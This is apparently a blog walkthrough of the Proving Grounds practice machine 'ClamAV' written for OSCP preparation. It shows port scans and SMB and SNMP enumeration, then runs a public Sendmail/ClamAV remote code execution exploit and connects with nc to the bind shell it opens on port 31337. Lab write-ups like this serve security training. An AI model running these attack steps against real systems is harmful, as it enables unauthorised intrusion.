 ```yaml
---
title: ClamAV
date: 2025-04-18
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: clamav.png
media_subpath: /assets/img/posts/2025-04-18-clamav/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Easy Linux box ClamAV. Let’s start ..

## Nmap Scan

Run a quick Nmap scan:

```bash
nmap --open $IP
```

```
TCP
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds
```

### UDP

Run UDP port scan on top 100 ports:

```bash
nmap -sU -F $IP
```

```
PORT     STATE         SERVICE
137/udp  open          netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open          snmp
1718/udp open|filtered h225gatedisc
```

### Detailed Nmap Scan

```bash
nmap -sVC -vvv $IP --script vuln -p22,25,80,139,199,445 
```

## Services

### Port 445

```
445/tcp open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
smb-security-mode:
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Port 25

**Sendmail** **8.13.4/8.13.4**/Debian-3sarge3

### Port 139

Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

```
 0XBABE         Wk Sv PrQ Unx NT SNT 0xbabe server (Samba 3.0.14a-Debian) brave pig
    platform_id     :       500
    os version      :       4.9
    server type     :       0x9a03

```

**Shares**

```
rpcclient $> netshareenumall
netname: print$
remark: Printer Drivers
path:   C:\var\lib\samba\printers
password:
netname: IPC$
remark: IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
path:   C:\tmp
password:
netname: ADMIN$
remark: IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
path:   C:\tmp
password:
```

### Port 161

```bash
snmpwalk -v2c -c public $IP
```

iso.3.6.1.2.1.1.1.0 = STRING: "Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686"

iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10

iso.3.6.1.2.1.1.3.0 = Timeticks: (411690) 1:08:36.90

iso.3.6.1.2.1.1.4.0 = STRING: "Root [root@localhost](mailto:root@localhost) (configure /etc/snmp/snmpd.local.conf)"

iso.3.6.1.2.1.1.5.0 = STRING: "0xbabe.local"

iso.3.6.1.2.1.1.6.0 = STRING: "Unknown (configure /etc/snmp/snmpd.local.conf)"

iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00

iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.2.1.31

iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.1

iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.2.1.49

iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.2.1.4

iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.2.1.50

iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.6.3.16.2.2.1

iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.6.3.10.3.1.1

iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.6.3.11.3.1.1

iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.15.2.1.1

## Web

### Port 80

Apache/1.3.33

`Apache 1.3.34/1.3.33 (Ubuntu / Debian) - CGI TTY Privilege Escalation`                                                                                                                                  → linux/local/3384.c

![image.png](image.png)

## Exploitation

Searching for public exploits for Sendmail with ClamAV we can find:

[https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

![image.png](image%201.png)

This is Remote Code Execution exploit

![image.png](image%202.png)

It opens u port 31337 on the target machine to connect to it with bind shell.

Executing the exploit:

```bash
perl exploit.pl $IP
```

Then connect to the port 31337 with

```bash
nc $IP 31337
```
